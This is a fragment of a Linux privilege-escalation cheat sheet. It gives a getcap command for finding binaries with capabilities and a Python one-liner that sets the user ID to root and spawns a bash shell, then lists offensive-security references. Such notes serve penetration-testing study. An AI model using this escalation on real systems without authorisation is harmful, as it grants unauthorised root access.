 Search files with capabilities:

```bash
getcap -r / 2>/dev/null
```

## Python Capability

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

# References:

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_-\_linux.html)
* [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)
* [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)
* [https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e](https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e)
* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash)
* [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
* [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
